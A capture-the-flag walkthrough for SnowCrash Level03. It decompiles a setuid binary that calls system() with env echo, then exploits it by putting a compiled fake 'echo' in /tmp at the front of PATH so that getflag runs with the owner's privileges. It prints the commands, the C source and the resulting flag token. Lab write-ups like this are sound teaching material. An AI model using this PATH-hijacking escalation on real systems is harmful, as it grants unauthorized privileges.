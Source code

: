 # Level03

## Walkthrough

We check the content of the home directory.

```bash
level03@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ file level03 
level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```

The `s` on `level03` permissions indicates the **setuid bit**. This means that the file will run with the privileges of its owner instead of the user executing it. In our case, the owner is **flag03**.

We transfer it to our local machine using **SCP**.

```bash
host:~$ scp -P 4242 level03ocalhost:level03 level03
```

We decompile the binary using a decompiler explorer like **dogbolt**.

[Link to the decompiled output](https://dogbolt.org/?id=0a105cdf-9237-4e31-9773-e9a12740c81a)

We analyze the main function and figure out that the program:
- calls `getegid()` and `geteuid()` to retrieve the effective group ID and user ID
- sets them with `setresgid()` and `setresuid()` (in our case **flag03**)
- executes a shell command (`echo`) with `system()`

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
	__gid_t v4; // [esp+18h] [ebp-8h]
	__uid_t v5; // [esp+1Ch] [ebp-4h]

	v4 = getegid();
	v5 = geteuid();
	setresgid(v4, v4, v4);
	setresuid(v5, v5, v5);
	return system("/usr/bin/env echo Exploit me");
}
```

We can exploit this program by running the `getflag` command with the **flag03** privileges inside the `system()` call.  
Although we cannot modify the arguments passed to the system call directly, we can exploit the fact that `echo` is a built-in command and alter it’s behavior to execute the `getflag` command instead.

We then have to create our own version of `echo` in the `/tmp` directory and add it to the `$PATH` so that it will be invoked instead of the original one. After that, we just run the script and voila, it executes the `getflag` command as **flag03**.

```bash
level03@SnowCrash:~$ cd /tmp && mkdir echo
level03@SnowCrash:/tmp$ cd echo && touch echo.c
level03@SnowCrash:/tmp/echo$ vim echo.c
# paste the c program from below
level03@SnowCrash:/tmp/echo$ gcc echo.c -o echo
level03@SnowCrash:/tmp/echo$ ls -la
total 12
drwxrwxr-x 2 level03 level03   80 Feb  8 19:51 .
d-wx-wx-wx 6 root    root     120 Feb  8 19:50 ..
-rwxrwxr-x 1 level03 level03 7160 Feb  8 19:51 echo
-rw-rw-r-- 1 level03 level03   84 Feb  8 19:49 echo.c
level03@SnowCrash:/tmp/echo$ export PATH=/tmp/echo:$PATH
level03@SnowCrash:/tmp/echo$ ~/level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

```c
// echo.c
#include <stdlib.h>

int main(void) {
	system("/usr/bin/env getflag");
	return 1;
}
```
## Resources

- [setuid bit](https://en.wikipedia.org/wiki/Setuid)
- [Exploit system() call in C](https://stackoverflow.com/questions/39939853/exploit-system-call-in-c)
- [How to exploit system() call in C](https://www.go4expert.com/articles/exploit-c-t24920)
